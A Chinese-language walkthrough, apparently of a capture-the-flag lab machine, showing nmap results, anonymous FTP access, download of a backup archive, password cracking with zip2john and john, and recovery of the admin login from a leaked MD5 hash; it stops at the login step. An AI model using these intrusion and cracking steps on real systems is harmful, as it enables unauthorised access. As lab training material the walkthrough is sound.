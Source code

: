 ```
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

通过查看扫描结果，可以发现能用anonymous登录ftp:
```
ftp 10.129.9.183
```
输入anonymous，不用输入password，进入ftp后发现backup.zip文件，使用get backup.zip下载压缩包，使用unzip解压缩backup.zip文件，发现需要密码，使用john破解：
```
zip2john backup.zip > passwdtxt
爆破密码：
john passwd.txt
```
爆破后的密码是：
```
741852963        (backup.zip)
```
压缩包里有两个文件index.php和style.css
index.php内容重要的部分：
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

```
拿到管理员密码：
```
username:admin
password:2cb42f8734ea607eefed3b70af13bbd3(md5)
john解密md5得到：
qwerty789   
```
访问IP使用凭据登录，
